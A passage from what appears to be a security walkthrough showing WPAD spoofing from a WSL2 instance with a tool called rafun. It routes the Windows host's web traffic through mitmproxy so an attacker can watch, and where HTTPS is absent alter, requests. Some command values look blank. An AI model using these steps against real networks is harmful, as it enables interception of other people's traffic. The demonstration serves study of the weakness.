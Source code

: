 Let’s now use WPAD.

9) In a new WSL2 shell, start mitmproxy
```
mitmproxy -p 8080
```

10) Stop rafun, and start it again with:
```
./rafun -dnsAaddr= -wpaddat="PROXY :8080"
```

In step 7 rafun was intentionally failing the wpad dns responses, so it might take a bit of time, but you will note that at some point the 'vEthernet (WSL)' status page will say IPv4/IPv6 connectivity: Internet.

![](wsl2/2.png)

11) On the host, in a powershell shell run
```
Invoke-WebRequest www.google.com
```

You will see the request appears in mitmproxy, meaning the attacker was able to spy on it and if https was not used modify it.
